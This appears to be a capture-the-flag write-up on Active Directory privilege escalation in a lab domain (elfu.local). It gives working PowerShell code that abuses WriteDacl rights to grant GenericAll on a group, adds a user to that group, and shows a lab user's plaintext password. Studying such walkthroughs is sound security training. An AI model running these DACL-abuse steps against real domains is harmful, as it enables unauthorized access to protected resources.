

# Pivoting Through the Snow

Using the credentials I discovered for the remote_elf user, I was able to enter a powershell session on `10.128.1.53`


From there, I now had a powershell session on the remote end with access to .NET code. Now I can get busy.

First of all, what are the AD Groups available? I can query this using `Get-ADGroup -Filter * | select DistinguishedName`


Interesting...I wonder if I have any tasty access capabilities on some of these groups...

After looking through a bunch, I discovered that I do have access!

Lookie lookie!


Using:
```powershell
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$domainDirEntry.get_ObjectSecurity().Access | Where-Object IdentityReference -eq 'ELFU\remote_elf'
```

I have `WriteDacl` access to the Research Department!

Giving myself access...


aka:

```powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "fkhcuqviyc"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = ( New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule ( $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID )
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

Confirming I have GenericAll access...


Now to add the user to the group!


or

```powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "fkhcuqviyc"
$password = "Biqhxtixe#"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid = $user.Translate([System.Security.Principal.SecurityIdentifier])
$b = New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID = [BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

Confirming I'm in the group...

`get-ADGroupMember "CN=Research Department,CN=Users,DC=elfu,DC=local" | where-object name -eq 'fkhcuqviyc'`


So...can I now access the share?



Yup!